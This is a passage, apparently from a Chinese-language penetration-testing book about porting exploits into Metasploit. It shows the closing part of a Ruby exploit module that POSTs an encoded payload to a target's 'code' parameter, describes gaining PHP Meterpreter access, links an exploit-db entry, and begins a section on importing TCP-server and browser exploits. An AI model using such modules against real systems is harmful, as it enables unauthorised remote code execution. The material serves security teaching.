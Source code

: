 ```
  def exploit 
    send_request_cgi( 
      'method'    => 'POST', 
      'uri'       => normalize_uri(target_uri.path), 
      'vars_post' => { 
        'code' => payload.encoded 
      } 
    ) 
  end 
end 
```

我们可以看到我们刚刚创建了一个带有我们有效载荷的简单`POST`请求。一旦它在目标上执行，我们就会获得 PHP Meterpreter 访问权限。让我们看看这个利用的效果：

![](img/8b55d368-febe-452a-98e2-fab97148a29f.png)

我们可以看到我们已经在目标机器上获得了 Meterpreter 访问权限。我们已成功将远程代码执行漏洞转换为 Metasploit 中的可工作利用。

官方的 Metasploit 模块已经存在于 PHP 实用工具包中。您可以从以下链接下载利用：[`www.exploit-db.com/exploits/39554/`](https://www.exploit-db.com/exploits/39554/)。

# 将 TCP 服务器/基于浏览器的利用导入 Metasploit

在接下来的部分中，我们将看到如何将基于浏览器或 TCP 服务器的利用导入 Metasploit。

在应用程序测试或渗透测试期间，我们可能会遇到无法解析请求/响应数据并最终崩溃的软件。让我们看一个在解析数据时存在漏洞的应用程序的例子：
